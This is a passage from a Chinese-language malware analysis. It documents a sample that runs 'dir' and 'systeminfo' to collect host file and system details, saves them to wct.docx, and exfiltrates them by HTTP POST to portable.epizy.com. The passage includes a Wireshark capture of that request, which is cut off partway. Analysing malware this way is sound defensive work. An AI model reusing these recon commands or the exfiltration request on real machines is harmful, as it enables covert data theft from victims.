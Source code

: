 ```
/c dir C:/Users/zoem/Desktop/
/c dir C:/Users/zoem/AppData/Roaming/MICROS~1/Windows/Recent/
/c dir C:/PROGRA~1/
/c systeminfo
```

也就是说样本收集了所在主机中的部分文件信息以及硬件和系统配置信息，然后保存到了`wct.docx`文件中

![image-20200907205947942](./img/xeyo-huorong3.png)

![image-20200907210013365](./img/xeyo-huorong4.png)

最后样本连接了`portable.epizy.com`的80和8080端口，POST出去了一些数据，然后删除了`wct.docx`。所以合理怀疑这里就是把`wct.docx`中的内容发送出去了。

### 2.2 Wireshark抓包结果

![image-20200907210318044](./img/xeyo-wireshark.png)

数据内容：

```
POST http://portable.epizy.com/img/png/post.php HTTP/1.1
Accept: */*
Host: portable.epizy.com
Referer: http://portable.epizy.comimg/png/post.php
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywhpFxMBe19cSjFnG
Accept-Language: en-us
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; .NET CLR 1.1.4322)
Content-Length: 5897
Proxy-Connection: Keep-Alive
Pragma: no-cache


------WebKitFormBoundarywhpFxMBe19cSjFnG
Content-Disposition: form-data; name="MAX_FILE_SIZE"

```